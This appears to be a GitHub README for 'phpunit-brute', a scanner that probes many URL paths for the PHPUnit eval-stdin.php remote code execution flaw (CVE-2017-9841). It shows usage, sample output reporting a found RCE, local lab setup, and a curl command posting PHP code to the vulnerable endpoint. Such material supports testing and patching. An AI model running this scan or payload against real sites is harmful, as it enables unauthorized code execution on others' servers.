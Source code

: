 # phpunit-brute

Tool to try multiple paths for PHPunit RCE (CVE-2017-9841).

It uses local payloads list

if you have a path that is not on there please submit a PR

Install
---
```
python3 -m pip install -r requirements.txt
```
usage
---
```
phpunit-brute.py [-h] -u URL [-o OUTPUT] [-p PROXY]
phpunit-brute.py: error: the following arguments are required: -u/--url
```


Example
---

```
python3 phpunit-brute.py -u http://someoldwebsite.com -o results.txt


[-] No Luck for /_inc/vendor/stripe/stripe-php/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /_staff/cron/php/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /_staff/php/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /~champiot/Laravel E2N test/tuto_laravel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /~champiot/Laravel%20E2N%20test/tuto_laravel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /~champiot/tuto_laravel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /172410101040/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /1board/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /20170811125232/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[+] Found RCE for http://someoldwebsite.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [+]
```

Testing the script
---
in case you want to test the script install following
```
sudo apt -y install curl php-cli php-xml php-mbstring git unzip
sudo php composer-setup.php --install-dir=/usr/local/bin --filename=composer
php -r "copy('https://getcomposer.org/installer', 'composer-setup.php');"
php -r "if (hash_file('sha384', 'composer-setup.php') === '756890a4488ce9024fc62c56153228907f1545c228516cbf63f885e036d37e9a59d27d63f46af1d4d07ee0f76181c7d3') { echo 'Installer verified'; } else { echo 'Installer corrupt'; unlink('composer-setup.php'); } echo PHP_EOL;"
php composer-setup.php
php -r "unlink('composer-setup.php');"
composer require phpunit/phpunit:5.6.2
```
run it using
```php -S 127.0.0.1:8888```
and before testing script confirm the bug using curl
```curl --data "<?php echo(pi());"http://localhost:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php```